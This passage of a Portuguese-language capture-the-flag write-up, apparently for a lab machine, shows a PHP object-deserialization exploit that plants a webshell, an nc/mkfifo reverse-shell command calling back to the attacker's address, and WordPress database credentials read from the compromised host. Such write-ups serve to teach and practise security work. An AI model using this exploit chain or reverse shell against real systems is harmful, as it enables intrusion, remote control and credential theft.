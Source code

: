 ```php
<?php 

class DatabaseExport
{
    public $user_file = 'shell.php';
    public $data = '<?php system($_GET["cmd"]); ?>';
    
    public function update_db()
    {
        echo '[+] Grabbing users from text file <br>';
        $this-> data = 'Success';
    }
    
    public function __destruct()
    {
        file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
        echo '[] Database updated <br>';
        //    echo 'Gotta get this working properly...';
    }
}

$url = 'http://10.10.10.223/sator.php?arepo=';
$arepo = $url . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$arepo");
print "$response";
```

Após execução, foi possível validar o funcionamento do webshell com a chamada executando o comando `id`.

```bash
$ php exploit.php
[] Database updated <br>[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>   

$ curl -L http://10.10.10.223/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmado o acesso, realizado chamada para um shell reverso utilizando o comando abaixo:

```bash
curl -G --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.136 4443 >/tmp/f" http://10.10.10.223/shell.php
```

## User Flag

Uma vez com acesso à máquina, já que era sabido que tínhamos um wordpress instalado, busquei pelo arquivo de configuração do wordpress onde pude obter as credenciais para acesso ao banco do usuário **neil**

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
